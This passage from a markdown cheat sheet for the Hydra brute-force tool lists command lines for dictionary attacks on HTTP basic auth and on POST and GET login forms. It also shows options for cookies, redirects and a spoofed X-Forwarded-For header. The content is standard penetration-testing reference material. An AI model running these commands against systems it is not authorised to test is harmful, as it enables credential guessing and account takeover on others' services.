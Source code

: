 ### Output & Logging
```bash
# Verbose output
hydra -v -l admin -P pass.txt target service

# Very verbose (debug mode)
hydra -V -l admin -P pass.txt target service

# Save output to file
hydra -o results.txt -l admin -P pass.txt target service

# Resume interrupted session
hydra -R
```

---

## 🌐 Web Application Attacks

### 1. HTTP Basic Authentication
```bash
# Basic auth brute force
hydra -L users.txt -P pass.txt target http-get /admin/

# With specific user agent
hydra -L users.txt -P pass.txt -m "Mozilla/5.0..." target http-get /admin/
```

### 2. HTTP POST Form Attack
```bash
# Login form attack
hydra -l admin -P pass.txt target http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid login"

# With additional parameters
hydra -l admin -P pass.txt target http-post-form "/login.php:username=^USER^&password=^PASS^&submit=Login:Invalid login"

# HTTPS form attack
hydra -l admin -P pass.txt target https-post-form "/login.php:username=^USER^&password=^PASS^:Invalid login"
```

### 3. HTTP GET Form Attack
```bash
# GET-based login
hydra -l admin -P pass.txt target http-get-form "/login.php:username=^USER^&password=^PASS^:Invalid login"
```

### 4. Advanced Web Options
```bash
# With cookies
hydra -l admin -P pass.txt target http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid:H=Cookie: PHPSESSID=abc123"

# With custom headers
hydra -l admin -P pass.txt target http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid:H=X-Forwarded-For: 127.0.0.1"

# Follow redirects
hydra -l admin -P pass.txt target http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid:F=302"
```